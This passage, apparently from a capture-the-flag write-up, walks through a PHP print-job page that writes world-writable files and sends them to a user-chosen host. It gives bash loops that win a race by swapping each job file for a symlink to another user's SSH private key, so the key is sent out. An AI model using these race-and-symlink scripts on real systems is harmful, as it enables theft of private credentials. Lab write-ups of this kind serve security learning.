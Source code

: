 this user did have a `.ssh` folder, so I hoped that he had an `id_rsa` key that I could try to steal. I searched for files that `srvadm` had access to but there wasn't anything else that looked useful.

```text
$title=$_POST["title"];
                $file = date("Y-m-d_H:i:s");
                file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
                chmod("/var/www/printer/jobs/".$file,"0777");
                $stmt=$conn->prepare("select ip,port from jobs");
                $stmt->execute();
                $result=$stmt->get_result();
```

I looked back at the code of the jobs page to see exactly what it was doing. It looked like it was creating a file with a name derived from the php `date("Y-m-d_H:i:s")` funtion, then writing to the file the contents of the 'Bill Details' field from the 'Print Jobs' page. After that it sends the file to the IP and port specified in the 'Bill & Receipt Printer' field.

So...now I had to try to figure how to trick this into printing the SSH key of `srvadm`. The only way I could think to do it was to create a link to the key file, replacing the file the print job expected \(we are able to do this since job.php sets the file permissions to 0777\) before it sends it to the "printer". I would have to be ...quick. [https://stackoverflow.com/questions/12198844/replace-a-whole-file-with-another-file-in-bash](https://stackoverflow.com/questions/12198844/replace-a-whole-file-with-another-file-in-bash)

```text
#!/bin/bash

while : 
do
        for job in $(ls -1 /var/www/jobs)
        do
                cat /dev/shm/printer > /var/www/jobs/$job;
        done
done
```

So that didn't work...probably because I don't have read permissions of the file. This does tell me, however, that the file exists and that I am on the right track!

```text
#!/bin/bash

while : 
do
        for job in $(ls -1 /var/www/jobs)
        do
                echo "The filename is $job"
                filename=$job
                rm -f /var/www/jobs/$job;
                ln -sf /home/srvadm/.ssh/id_rsa /var/www/jobs/$filename;
        done
done
```
